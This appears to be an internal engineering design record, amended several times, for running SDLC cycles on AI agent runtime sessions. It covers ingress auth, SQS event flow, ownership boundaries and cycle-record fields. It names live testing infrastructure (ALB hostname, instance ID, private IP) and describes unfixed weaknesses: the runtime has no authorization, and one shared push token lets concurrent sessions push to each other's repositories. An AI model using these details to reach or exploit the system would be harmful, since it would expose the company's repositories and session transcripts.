



# SDLC Execution on Sherpa Runtime Sessions

**Status:** Architecture, approved in shape and amended against implementation review. Originally written 2026-09-23; **amended 2026-09-24** (three times: against the two implementation specs, against a live probe of the testing runtime, and against the all-Go mandate) and **2026-09-25** (against implementation findings, including a retraction).

## Where this stands as of 2026-09-26

The design in this document was **implemented**. 35 pull requests merged across `nevadoai/command-center` and `nevadoai/nevado-sherpa-tui`. Four decisions changed during implementation and are corrected in place below; they are listed here so a reader knows what to look for.

| Decision | What shipped |
|---|---|
| **Ingress authentication** | **Four modes** behind `var.sdlc_ingress_mode`: `none`, `token`, `mtls`, `header`. **`token` is what runs** — a bearer token the runtime verifies itself, generated by Terraform with no human step. `mtls` and `header` remain implemented and inactive. mTLS was declined on **cost**, not feasibility; see Part 1 §0.9.1. |
| **SDK changes** | **No blocking chain, and the change that mattered was declined.** `sherpa-sdk#227` merged and released **v4.1.2**, widening `SessionApplication` to include `'sdlc'` so the runtime's ACL comparison is type-checked rather than reached through casts — nobody waited on it, and Command Center still pins **4.0.1**. `sherpa-sdk#226` — unforcing `createdBy` and `application` on create — was **closed unmerged** on merit: `createdBy` backs a live ownership check in `renameSession`, so a caller-supplied value would be a caller-supplied answer to an authorization question. Making the engine emit `'completed'` was declined too: it is a human complete/archive flag, emitting it would break `nevado-sherpa-ide`'s `/resume`, and no session status distinguishes a session that finished having submitted a result from one that finished having submitted nothing — delivery is not a lifecycle state. |
| **Outcome source** | `GET /v1/sdlc/sessions/{id}` is authoritative about a session's **checkout identity** and its **liveness**, and never about its **outcome**. Outcome arrives as a published event and is recorded on the cycle. |
| **Working branch** | Derived, not agent-chosen: `cycle/<cycleNumber>` from the cycle sort key, set at approve-dispatch and recorded on the engineering claim write. The `cycle/**` prefix is a **wire constraint** — the CI workflow the provisioner writes into every customer repo triggers on nothing else. |

**Verification state.** All 35 PRs are verified at the code level, with mutation testing on every Go change. One local end-to-end run proved dispatch → session → commit → push → git-verified completion. **No cycle has yet run on AWS.** The runtime is deployed; the ingress is not durable until `command-center#858` is fixed, because `sdlc_ingress_mode` is not persisted and every merge to `develop` reverts it.

> **Where code facts live.** Implementation specification is in `sdlc-runtime-impl-spec-part1-foundation.md` (contracts and Phases 0–3) and `…-part2-cutover.md` (Phases 4–7), verified against `develop` at `938be378` and against the **deployed** `@nevadoai/sherpa-core@4.0.1`. Those documents are **authoritative on code facts**: where a line number or a behavioural claim here disagrees with their correction sections (Part 1 §0.1/§0.6/§0.7, Part 2 §1.x/§12), they win. This document is authoritative on **decisions**, and remains the standing design record.
>
> Line citations below are kept only where they carry an argument. Where they were merely evidence they have been generalised, because this document cannot track two other repos' line numbers and should not pretend to.

> **Revision note — 2026-09-24.** Roughly fifty of the original document's code-level claims proved wrong once the runtime and SDK repos were read directly (the original was written believing the runtime repo was absent — it is not; there are **three** repos: `command-center`, `nevado-sherpa-tui` for the runtime server, `sherpa-sdk` for `@nevadoai/sherpa-core` and `-protocol`). Most corrections changed an instruction, not a decision. **Five decisions changed and are amended in place:**
>
> 1. **The terminal-tool surface** (§2.6) — still three named tools, but `submitPlan` and `submitReview` now carry an **opaque payload** validated by a CC-authored `resultSchema` the runtime executes generically. Driven by deploy economics and demonstrated schema drift, not by §1.1. An interim proposal to collapse all three into one generic `submitResult` was **withdrawn**: it lost the tool name as a discriminator to no benefit.
> 2. **Supersede ordering** (§3.2, §3.8) — release-before-create becomes **create-then-release**. The branch collision that justified it cannot occur.
> 3. **The `seq` dedup counter** (§2.4) — withdrawn in favour of a per-envelope UUID. Risk R5c deleted with it.
> 4. **Phase ordering** (§6) — **Phase 4b ships before Phase 4**; the build-failure loop moves into Phase 4 and the deploy-failure loop into a new Phase 6b. Neither loop was owned by any phase.
> 5. **The ACL** (§2.2) — scopes on `application === 'sdlc'`, not on `createdBy`, and needs no SDK change.
>
> Two requirements this document states are **not yet built and not yet owned**: the workspace TTL sweep (§3.8) and the runtime-globals audit (§7 U3). Both are called out where they appear rather than left implicit.
>
> **Second amendment, same day, from a live probe of the testing instance.** No decision changed; one factual model did, and it moved a risk.
>
> - **§1.3's credential model was wrong.** Push credentials are **not** host-global. They are acquired per repository, minted on first acquisition rather than at boot, and released when the last holder lets go. The conclusion this document needed — a machine session can push exactly as a human one can — survives intact; the mechanism does not. §1.3 and the ownership table are corrected.
> - **§4's blast radius was wrong in both directions.** Narrower per session (a session reaches only repos that were acquired), but **wider across sessions**: one shared token file and one shared repo map mean every acquisition re-mints a credential covering the union of all active repositories, so concurrent sessions can push to each other's repos. §4.4 carries it, and it is **the most consequential known instance of U3** — which is now partly answered.
> - **Two leaks are now measured, not inferred.** A live push credential has been re-minted every ~50 minutes for two days with **zero** sessions running (new risk **R17**), and 86 of 89 workspace directories on the box are stale (§3.8's gap, now evidenced). A failed or skipped release leaks **both** a clone and a live credential — and this design creates a session per cycle step, which multiplies whatever the current leak rate is.

> **Third amendment, same day: all Command Center Lambdas must be Go (CTO mandate).** This is the first amendment that **invalidates a decision listed as settled input** rather than correcting a claim.
>
> - **"TypeScript in the existing JS orchestrator rather than a new Go executor" is struck.** The option no longer exists. §5.5, which argued what that choice cost, is replaced by what the *mandate* costs. Its old third cost item was *"it will be written twice — not 'might'"*; that has come true, and the answer is now to write it once, in Go.
> - **This document does not choose the Go shape.** Extending the existing Go `sdlc-manager`, adding a new Go handler for the cycle path, or bringing `agentDrivenOrchestrator` forward in the wave order are all viable; the implementation spec owns the choice, constrained by `context/plans/go-migration-plan-for-node-js-lambda-handlers.md`. **Note that plan deliberately sequences the orchestrator last (Wave 5) because everything flows through it — which pulls against this design needing the dispatch path and consumer in Go now. That tension is the main thing for the spec to resolve.**
> - **What survives:** §1.1's boundary principle and §1.2's ownership table are language-agnostic, as are §2's contracts, §3's flows, §4's profile and §6's ordering. **A mandate that changes the language on one side of a boundary and invalidates none of the boundary's contracts is evidence the boundary was drawn in the right place.**
> - **What does not:** §5.1–5.4's delete/collapse/survive accounting is written as JS files and line counts. The deletions hold; the collapses become ports and the net-line arithmetic is void.
> - **New requirement, and it is the consequence that matters most** (§2.4, risk **R18**): the envelope and the cycle-effect rules will exist in **three** languages — TypeScript, Go, and Python (`cc_cycles.py`, which reads the cycle record and carries the §1.5 defect independently). One normative definition per contract, every port guarded by a build-failing test, and prefer deleting a copy to guarding it.
> - **Unrelated but assessed in the same pass** (§2.1): the API Gateway hop in Option A **is not a security control** — the ALB checks only the shared header, so the token path and the secret path are two independent doors rather than defence in depth. Option A's recommendation is amended, and the Go mandate expires the one argument that made it win. This also takes **U1/BQ1 — the plan's only blocking empirical unknown — off the critical path.**

> **Fourth amendment — 2026-09-25, from implementation findings. One of these is a retraction of something this document asserted confidently and wrongly.**
>
> - **⚠ RETRACTED (§4.3): "the runtime cannot add tools" and "all three terminal tools are a cross-repo SDK release."** False, and false about the deployed version the whole time. `@nevadoai/sherpa-core@4.0.1` exposes an MCP tool-provider seam — `mcp?: McpToolProvider` on the engine options and the runner deps, the interface exported from the package's public surface, `useMcpTool` compiled in and dispatched. The tools are injected from `apps/runtime` with **no SDK edit, no publish, no version bump.** The retraction is written at length in §4.3 because the false sentence was confident prose that would have had someone schedule a release train that was never needed.
> - **Consequences of the retraction** (§2.6, §5.4, §6): there is no SDK work on this plan's critical path. The allowlist and the `resultSchema` validator need not live in the SDK. §6's 4.0.2-versus-HEAD sequencing is no longer a gate on anything.
> - **§2.6's deploy-economics argument is much weaker; its conclusion survives on the boundary argument** — which this document had rated the weaker of the two. Recorded honestly rather than quietly kept, so a future reader who notices the stated reason has evaporated finds the replacement rather than reopening the decision.
> - **New rule (§2.6): no MCP tool on this runtime may perform a non-idempotent side effect.** `useMcpTool` carries a 30-second non-exempt timeout and the engine's wrapper resolves a `toolError` **without cancelling the underlying promise**, so a slow `git push` is reported failed and lands anyway. `reportCompletion` therefore verifies rather than commits and pushes — and that is **better** than the original design, not a workaround: a verifier is idempotent, so a retry or duplicate dispatch cannot double-push. The timeout did not force a compromise; it exposed that the side effect was in the wrong place.
> - **§3.9/§6's `stuckCycleDetector` prerequisite is inverted and currently satisfied by accident.** Its undeployability is a shield, not a hazard — the fifteen-minute wrong-failure cannot fire either. What is missing is stall *detection*, not *protection*. **The session-aware branch must land in the same deploy as the `-target=` entries**, because fixing the target list alone — which looks like obvious hygiene — re-arms the wrong-failure against live sessions.
> - **Two new risks capturing implementation findings:** **R19**, that deliberately-reproduced defects *are* the parity baseline, so fixing one before parity is recorded destroys the thing that would verify it; and **R7b**, that the shared Go merge helper discards the merge SHA, which is why three ports duplicate merge behaviour and why consolidating them onto it would silently drop `mergeSha`.

**Scope:** the SDLC cycle only. Four Bedrock call sites move onto Sherpa runtime sessions:

| Call site | Lines | What it is today |
|---|---|---|
| `backend/lambda_handlers/engineeringAgent/orchestratorHandler.js` | 1,369 | Plan generation + JSON-blob code generation, Bedrock at `:169`, `:327`, `:769`, `:851` |
| `backend/lambda_handlers/engineeringAgent/ssmBuildRunner.js` | 1,002 | A hand-rolled 7-tool agent loop driving a shared EC2 box over SSM RunCommand. Bedrock at `:40`/`:855`, SSM at `:182`/`:197`/`:854` |
| `backend/lambda_handlers/qaAgent/orchestratorHandler.js` | 632 | Diff review via Bedrock at `:267` and `:598` |
| `backend/lambda_handlers/agentDrivenOrchestrator/index.js:1412-1534` | 123 | `expandBusinessGoals` — fallback planner, Bedrock at `:1495`. Two callers: the planning fallback (`:1221`) and plan revision (`:4904`) |

Everything else stays. There are 21 files in `backend/` holding a `BedrockRuntimeClient`; 17 of them (devops*, selfHealing*, feedbackAgent, integrationAgent, securityAgent, browserService, applicationProvisioner, and the shared `common/bedrockConverse.js` / `common/knowledgeBaseLoader.js`) are explicitly out of scope and are not touched.

**Out of scope, deliberately:** gate convergence / `PendingGate` (PR43 `sdlc-execution-architecture.md` "Gates" section), epic rescoping, the DevOps/Compliance/Documentation roles, browser-driven test sessions, and the Go Layer-2 executor.

**Decisions taken as input** (not relitigated here): SDLC-cycle-only scope; ~~TypeScript in the existing JS orchestrator rather than a new Go executor~~; the Lambda never proxies tool calls; a dedicated machine namespace on the runtime for inbound calls; M2M auth with an ACL; terminal completion signalled by a runtime tool rather than an HTTP API; agent commits and pushes, CC opens the PR; CC composes and injects instructions; planning is a session.

**One of these is invalidated. All Command Center Lambdas must be Go — a CTO mandate, and it is not a preference this document can weigh against the others.** "TypeScript in the existing JS orchestrator rather than a new Go executor" was listed here as settled input precisely so it would not be relitigated; it is now struck because the option it chose no longer exists. §5.5 is rewritten to say what the mandate costs, and it does not choose the Go shape — that is the implementation spec's, constrained by `context/plans/go-migration-plan-for-node-js-lambda-handlers.md`.

The rest still hold. Three that were re-examined and survived are worth naming: the **Lambda never proxies tool calls** (nothing pressured it, and the mandate does not — it is a boundary decision, not a language one); **CC composes and injects instructions**, which matters more than it did because it is now the only fast-deploy path into the runtime's behaviour (§2.6); and **SDLC-cycle-only scope**, which the mandate makes *more* important rather than less — a language migration is exactly the moment scope creep becomes expensive.

**Event transport: the runtime publishes outbound to SQS.** This reverses an earlier decision (a dedicated inbound SDLC WebSocket namespace with `catchUp`-based recovery) and it is the single most consequential change in this document. The shape:

- The runtime holds no inbound event connection. It **publishes** session events to an SQS FIFO queue using its EC2 instance role plus one new `sqs:SendMessage` statement.
- A short-lived consumer Lambda is triggered per batch, maps events through `runtimeEvents.mapSessionEvent`, writes cycle state, exits.
- `messageGroupId = sessionId` gives per-session ordering from the queue itself, so the consumer never reorders. Nothing in this design needs a monotonic counter — the deduplication id is a **per-envelope UUID** (amended; see §2.4).
- Events echo back the correlation metadata (`applicationId`, `cycleId`) supplied at session create, so the consumer resolves the cycle with no session→cycle lookup table.
- DLQ required.

The consequence that matters: **no invocation ever spans a session**, so the 15-minute Lambda cap is not an architectural constraint. There is no socket to hold open, so no ingress auth for one, no reconnect, no cursor, and no self-re-invoke.

**SQS, explicitly not EventBridge.** One consumer, no content-based routing, no fan-out. The orchestrator already consumes SQS (`aws_lambda_event_source_mapping.agent_orchestrator_sqs`, `infrastructure/lambdas.tf:1561-1566`) and the repo has 16 `aws_sqs_queue` resources to pattern-match against. EventBridge earns its place the first time a second independent consumer appears — not before.

---

## 1. Component boundaries

### 1.1 The boundary principle

**The runtime never learns an SDLC concept.** It knows sessions, workspaces, tools, git, and an event stream. It does not know what a cycle, a step, a role, an application, a tenant, a pull request, a gate, or an iteration is. Everything SDLC-shaped lives in Command Center.



The concessions, stated completely rather than as one. The runtime learns: the ingress path `/v1/sdlc/*`, because an ALB listener rule has to match on something; the `SessionApplication` value `'sdlc'`, which is the discriminator the non-interactive profile branches on (§4.1); and the two tool names `submitPlan` and `submitReview` (§2.6). Everything else crossing the boundary is generic session vocabulary or an opaque blob the runtime forwards without reading.

**And the boundary argument is weaker than an earlier draft of this section implied. It is worth being honest about that, because the honesty changes which arguments are load-bearing.** The runtime already knows "plan" as a first-class concept and always has: `SessionCommand` is `'do' | 'plan'`, there is a `writePlan` tool, a `PLAN_BLOCKED_TOOLS` set, a `planCreated` event, and a reserved `AgentSession.plan` field. None of that was added by this design. More pointedly, the `instructions` field (§2.7) carries *far* more SDLC content across the same boundary than any tool schema would — it contains the role's prompt, the plan, the QA findings — and this document deliberately routes it that way.

So **"the runtime must not learn an SDLC concept" is a design heuristic, not an invariant**, and where it is invoked below it is invoked as one. When this was written, the argument that actually decided the terminal-tool surface in §2.6 was **deploy economics** rather than this heuristic. **Amended 2026-09-25: that has reversed.** The tools turned out to need no SDK release (§4.3's retraction), so the deploy bill is far smaller than argued and §2.6's conclusion now rests on this heuristic after all — supported by a residual, still-asymmetric deploy cost rather than decided by it. The heuristic is load-bearing again; treat it as such, and keep treating it as a heuristic.

This is the same rule PR43 states as "contracts at boundaries, not shared schemas" (`sdlc-execution-architecture.md`, "Design principle"), applied at one boundary rather than three. It is worth stating in the negative, because the pressure to break it is constant and each break is individually small:

- The runtime must **not** load agent profiles, bootstrap prefixes, or per-role knowledge. `prompt-loader.ts`'s `loadSystemPrompt` stays for human sessions and is bypassed entirely for SDLC sessions (decision 8). This also sidesteps the cache defect: `prompt-loader.ts:12,80-83` holds a single module-level cache entry keyed `kbBucket/kbPrefix`, which thrashes the moment two roles with different prefixes run concurrently on one runtime.
- The runtime must **not** open, review, or merge pull requests. It commits and pushes; that needs a working tree. PR create/review/merge are HTTP calls against GitHub and belong to CC.
- The runtime **publishes generic session events** and nothing else. It carries `applicationId`/`cycleId` back out as an opaque correlation blob it was handed at create time — it does not read them, branch on them, or know what they mean. This is the one place the boundary is load-bearing under the new transport: the temptation will be to let the runtime write the cycle record directly, since it has an instance role and DynamoDB is right there. Don't. The consumer Lambda is what knows what a cycle is.
- CC must **not** reach into session internals. It reads the `AgentSession` record through the API and consumes events; it does not read the S3 session transcript to drive the cycle. (`backend/common/sherpaSessions.js` already reads the S3 layout for the session *list* UI; that read stays read-only and stays out of the cycle's critical path — see the drift warning in its own header, `sherpaSessions.js:28-32`.)

### 1.2 Ownership table

**This table and §1.1's principle are language-agnostic, and that is load-bearing rather than incidental.** They allocate *concerns* to *components*; no row names a runtime, a framework or a file. So the Go mandate (§5.5) invalidates nothing here, and neither did any of the runtime corrections. When re-deriving §5's accounting against a Go shape, this table is the thing that constrains it — the component boundaries do not move, only the language on one side of them.

| Concern | Owner | Notes |
|---|---|---|
| Cycle record, statuses, transitions | CC | `backend/common/cycleStatuses.js` (23 statuses) and `agentDrivenOrchestrator/sdlcEngine.js`'s `applyTransition` are the system of record. `status` goes through `applyTransition` or `writeStatus` at 54 write sites — **with one live exception this document originally missed: `stuckCycleDetector` writes `'failed'` as a raw string, with no `ConditionExpression` and no `GSI4PK` removal, so a cycle it times out of a polled status stays in the poller's results.** That is a pre-existing bug and a prerequisite for §3.9, not a consequence of this design. |
| Step graph, what runs next | CC | `agentDrivenOrchestrator/sdlcStepGraph.js` (265 lines) already describes it; `routeAfterEngineering` (`index.js:175`) already routes it. |
| Instruction/prompt composition | CC | `common/agentBootstrap.js` (137), `common/agentMemory.js` (223), `common/agentSkills.js` (132), `common/knowledgeBaseLoader.js` (593). These survive — see §5. |
| Task prompt authorship (every turn) | CC | Session create, plan-approved, QA feedback, build-failure loop-back are all CC-authored messages. |
| Human gates | CC | `approvePlan` (`index.js:1544`), `approveCycle` (`index.js:1973`). Unchanged in mechanism (and still carrying the read-then-check race — §7). |
| PR create / review / merge | CC | 5 create sites, 3 merge sites (§3.4, §5). |
| PM write-back, notifications, audit | CC | Unchanged. |
| Workspace provisioning | Runtime | `WORKSPACE_BASE_DIR=/workspaces`. **Clone-only: one independent shallow clone per session under `<baseDir>/<sessionId>`, torn down with an `fs.rm`. There are no worktrees anywhere in the runtime.** This matters twice below — it is why the supersede ordering reverses (§3.8) and why the TTL sweep's nominated primitive is wrong (§3.8). |
| Tool execution | Runtime | In-process. `PlatformAdapter.runCommand` is `spawn('sh', ['-c', command], {cwd: workspaceRoot})`, `node-platform-adapter.ts:184-201`. Zero SSM references anywhere in sherpa-sdk. |
| Git commit + push | Runtime | Via the new `reportCompletion` tool. Credentials are acquired **per repository, per session** and exist only while held — see §1.3, which corrects this document's original "host-global" description in both directions. |
| Agent loop, context management, sub-agents | Runtime | `AgentEngine` (`packages/core/src/engine/agent-engine.ts`). |
| Session persistence / resume | Runtime | `SessionManager`, S3 under `SESSION_PREFIX`. |
| Event **publication** (outbound) | Runtime | New. `sqs:SendMessage` on one FIFO queue. No inbound connection, no CC credentials, no DynamoDB access. |
| Event **interpretation** (cycle effects) | CC | The consumer Lambda + `runtimeEvents.mapSessionEvent` (`:47-101`). The only component that knows what a cycle is. |
| Tool documentation (`TOOLS.md`-equivalent) | Runtime | Only the runtime knows its own tool surface (decision 8's stated exception). |

### 1.3 What the runtime already has that this design depends on

Verified in `infrastructure/sherpa-ec2-cloud-init.sh.tftpl` and `infrastructure/sherpa-ec2.tf`:

- **Git push credentials are wired, and they are acquired per repository — not host-global.** Cloud-init installs the GitHub CLI and configures git to delegate credential lookups to it (`helper = !/usr/bin/gh auth git-credential`). The systemd unit carries the GitHub App id, private-key ARN and installation id, and the instance role can read that secret.

  **The load-bearing conclusion survives: a machine session can clone, commit and push with exactly the capability a human session has, because nothing in the credential path is tied to a human identity.** That is what this design needs and it is confirmed.

  **The mechanism was described wrongly, and the correction matters for §4.** Amended on three points, verified against the live testing instance on 2026-09-24:

  1. **The token is minted on first acquisition, not at startup.** `ExecStartPre`/`ExecStopPost` only *delete* `~/.config/gh/hosts.yml`; they do not write it. A token manager mints one when a session first calls `acquire(repo)`, refcounts per repo, writes the hosts file at mode `0600`, and schedules a refresh at expiry minus a ten-minute buffer. `release(repo)` decrements, and when the last repo goes it stops the timer and deletes the file. **So a credential exists only while a session holds a repo.**
  2. **It is scoped to the repositories currently held, not to the whole installation.** The minted installation token names an explicit repository list.
  3. **But the scoping is per *host*, not per *session*, and that is the finding.** `activeRepos` is a single in-memory map and `hosts.yml` a single shared file, and **every acquisition re-mints one token covering the union of all currently active repos.** So two concurrent sessions on different repositories each hold a credential granting push access to the other's. At the deployed cap of ten that is up to ten repositories in one on-disk token. §4 carries the consequence.

  Two operational details worth recording because they cost time otherwise. The git credential helper lives at the **XDG path** `/home/ec2-user/.config/git/config`, not `~/.gitconfig`, so it only resolves when `HOME=/home/ec2-user` — an ad-hoc clone as another user fails for that reason and is a bad test, not a finding. And CC and the runtime push and open PRs as **the same GitHub App installation**, so the PR-open in CC sees the branch the runtime pushed with no cross-identity problem.
- **Bedrock access.** `bedrock:InvokeModel` / `InvokeModelWithResponseStream` on `Resource = "*"` (`sherpa-ec2.tf:185-192`).
- **Concurrency.** `MAX_CONCURRENT_SESSIONS=10` in the deployed unit; **the runtime's own default is 5**, which is what a local test gets unless the variable is set. The admitted number is **exactly** the cap, not one more: the worker reserves the slot *before* evaluating the gate, which is why the comparison is `>` rather than `>=`. Two careful readers have misread those five lines as an off-by-one, so treat the reserve-then-gate ordering as a known trap rather than a subtlety. Sessions over the cap park on an in-memory queue.
- **The runtime is deployed and running in testing.** Live as of 2026-09-23: ALB `testing-sherpa-alb` at `testing-sherpa-alb-1426385821.us-east-1.elb.amazonaws.com`, instance `i-0d5271e1ce5ea4fb0` running at `10.16.2.183` in `vpc-02482e2c1d40e003b` (private subnet), Cognito client `testing-sherpa-alb-client` present. The Terraform defaults (`sherpa-ec2.tf:55-59`, `:416`) describe the variable defaults, not the deployed testing state.

  This changes the plan materially. **The auth path is empirically testable today, not a design argument** — §6 Phase 1 becomes "run curl against a live endpoint," which is a day, not a sprint. It also means the private address `10.16.2.183` is real, which opens the compute-placement question in §2.1.

- **The runtime has no authentication and no authorization at all.** Amended, and this is the single largest gap between this document's original assumptions and reality. The entire auth layer assigns a hardcoded `req.userId = 'dev-user'` on every request; **no HTTP route handler reads it**; `GET /sessions/:id`, `DELETE /sessions/:id` and `GET /sessions` perform no ownership check whatsoever, so anything past the ALB can read any session's full transcript. The runtime's own API documentation states it outright: *"Authenticated is not identified."* §2.2's ACL will therefore be the **first** authorization in this service and cannot piggyback on anything — which is why §2.2 is amended to scope on a field the SDLC path controls rather than on an identity the service does not have.

- **The M2M path has never been exercised.** The user pool contains exactly two clients — `testing-sherpa-alb-client` and `testing-control-center-client` — and **no `client_credentials` client exists**. `backend/go/internal/credmanager/authorizer.go` genuinely manages the authorizer audience list and `create.go:114` genuinely requests the `client_credentials` grant, but nothing has ever authenticated through it end to end.

  One known gotcha to prove before designing on it: `cognito_authorizer` validates `audience` (`infrastructure/main.tf:242`, `audience = [aws_cognito_user_pool_client.command_center.id]`), while Cognito `client_credentials` access tokens carry **`client_id`, not `aud`**. Whether API Gateway's JWT authorizer accepts the token depends on how it resolves the audience claim for that token shape. **Prove it with a curl before anything is built on it** — this is a ten-minute test that can invalidate an entire ingress design, and it is the single highest-value thing to do first.

- **ALB idle timeout is already 3600s** (`sherpa-ec2.tf:496`), not the 60s default. Under the SQS design nothing long-lived survives in the machine path, so this now matters only to the human WebSocket surface.

The corollary is a security fact worth stating plainly, and it is **narrower and wider** than this document originally claimed. Originally: *"any session on the runtime can push to any repository the GitHub App installation covers."*

- **Narrower per session.** A session can push only to repositories that have been acquired, not to everything the installation covers.
- **Wider across sessions, and this is the real exposure.** Because the token is the union over all active repos in one shared file, a session's *effective* reach is every repository every concurrent session is working on. The bound is not "one repo" and not "the whole installation" — it is "whatever else is running right now", which is a bound nobody can reason about at the time they start a cycle.

Adding machine sessions does not change the mechanism, but it changes two things about its exercise: an unattended process exercises it far more often, and **a session per cycle step raises the concurrent-repo count**, which is exactly the variable the union is over. §4 addresses containment; §7 R17 records the leak this interacts with.

### 1.4 The cycle record, as actually written

Several field names in circulation are not the persisted names. Since "CC keeps writing the same record" is the load-bearing claim of this whole design, the real shape matters. Canonical record built at `index.js:1067-1104`:

| Commonly said | Actually persisted |
|---|---|
| `currentStage` | `stage` (set via `applyTransition(cycle, status, {stage})`). `currentStage` appears once in the orchestrator, at `index.js:4241`, and only as an error-response key. **But see §1.5 — the engineering agent writes a real `currentStage`.** |
| `engineeringResult` | Nested: `cycle.iterations[n].engineeringResult` (`index.js:1816-1824`) and `cycle.deployIterations[n].engineeringResult` (`:3228-3237`). Shape `{success, branchName, commitSha, error, filesChanged, filePaths[], verificationIssues}`. |
| `qaResult` | Nested: `cycle.iterations[n].qaResult` (`index.js:250`). Scalars promoted to top level instead: `cycle.testBranch` (`:260`), `cycle.testsGenerated` (`:261`). |
| `prUrl` / `prNumber` | `cycle.pullRequest = {number, url, title, headSha, createdAt?, mergedAt?, merged?, mergeSha?}` (`index.js:1872-1877`, `:4326-4331`, merge fields `:4534-4536`, `:4705-4708`). |
| `commitSha` | `cycle.buildHeadSha` (`index.js:1925`, `:3091`) and `cycle.pullRequest.headSha`. |
| `approvalStatus` | Not stored. It is the request-body parameter of `approveCycle` (`index.js:1973`). Persisted instead: `cycle.approvedAt` (`:2022`), `cycle.approvedPlan` (`:1593-1605`). |
| `iterationCount` | `cycle.currentIteration` (init 1, `:1090`; `+= 1` at `:2118-2119`) and `cycle.maxIterations` (`:1091`, default 5). Deploy loop uses `deployIterationCount` and `cycle.deployIterations[]`. |

Real top-level fields: `branch` (`:1849`), `githubUrl` (`:1855`), `expandedRequirements` (`:1285`), `approvedPlan`, `planFeedback` (`:1573`), `pollingStartedAt`, `deployRetryCount`/`deployFixInProgress` (`:3401`), `runtimeSessionId`/`runtimeSessionStubbed` (`:1636-1638`), `GSI4PK`/`GSI4SK`.

`expandedRequirements`' shape, as the primary planner produces it (`orchestratorHandler.generatePlan`'s output-format block): `{summary, approach, requirements[], filesToCreate[], filesToModify[], assumptions[], risks[], estimatedEffort}`, plus `generatedAt` and `generatedBy`.

**Correction: `generatedBy` is stamped by the engineering agent, not by the orchestrator.** The orchestrator range this document originally cited is `recordCheckpoint`'s evidence block, which **reads** `expandedRequirements?.generatedBy`; the only writer is `engineeringAgent/orchestratorHandler.js`'s `plan.generatedBy = 'nevado'`. That matters for §3.1: whatever persists a plan payload must stamp both fields, or the checkpoint's audit evidence goes null — and an existing test asserts on `generatedBy: 'nevado'`, so the omission fails loudly, which is the desirable outcome.

Two mismatches to know about, both fixed in Phase 0 or Phase 5:

- **The field is `approach`. The plan-review dialog reads `technicalApproach`**, which nothing in the repo writes. The other three fields it reads (`.summary`, `.requirements[]`, `.risks[]`) are correct. **Two corrections to how this was originally stated:** the dialog's approach panel has never rendered *at committed `HEAD`*, but uncommitted work wires the dialog up (`onReviewPlan={setPlanningReviewData}`), so "never rendered" is about to stop being true and the field name must be fixed before it is. And `approach` is **not** a UI-only field — it has committed non-UI readers, the load-bearing one being `cursorAgent/devHandler.js`'s `requirements: plan?.approach || task`, which silently degrades a plan to a one-line task when `approach` is absent. So `approach` is the name to standardise on for reasons that have nothing to do with the dialog.
- **The fallback planner produces less.** `expandBusinessGoals`' prompt (`index.js:1451-1489`) omits `filesToCreate`/`filesToModify`, so `recordCheckpoint`'s evidence counts (`index.js:1298-1317`) were zero or meaningful depending on which planner ran. §2.6's `submitPlan` takes `generatePlan`'s schema and ends the divergence.

### 1.5 Two progress channels, and why the UI will go blank

This one is not cosmetic and it is not in any prior design doc.

There are **three independent progress-write paths into the cycle record** — this document originally said two — and they write two different fields:

| Writer | Field | Entry shape |
|---|---|---|
| `engineeringAgent/orchestratorHandler.js` (`reportProgress`) | `cycle.activities[]`, plus `currentStage` and `lastActivityAt` | `{timestamp, phase: 'dev', stage, message, detail?}` |
| `agentDrivenOrchestrator/progressTracker.js` | `cycle.activities[]` | `list_append` onto the same field |
| `common/progressLogger.js` (`addProgressLog`) | `cycle.progressLog[]` | `{timestamp, stage, message, detail?}` |

The frontend reads a chain beginning with a name nothing writes: `CycleProgress.jsx` is `cycle?.activityLog || cycle?.activities || []`. `activityLog` does not exist anywhere in the backend, and `progressLog` is never read by the UI at all.

`applyRuntimeEffect`'s `activity` arm calls `addProgressLog`. So **as currently wired, every runtime session event lands in `progressLog` and is invisible in the activity feed.** Moving execution to the runtime would, with no other change, replace a working live activity feed with an empty one — the most visible part of the cycle UI, silently gone, at exactly the moment operators most need to see what the new execution path is doing.

